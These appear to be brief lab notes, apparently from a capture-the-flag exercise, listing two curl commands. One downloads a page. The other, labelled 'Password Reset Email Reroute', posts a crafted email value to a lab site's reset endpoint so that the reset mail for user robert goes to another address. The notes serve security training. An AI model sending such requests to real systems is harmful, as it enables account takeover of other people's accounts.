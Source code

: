 **Basic Curl**

```
curl axonia.co -o output.txt
```


**Password Reset Email Reroute**

```
curl 'http://10.10.160.36/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

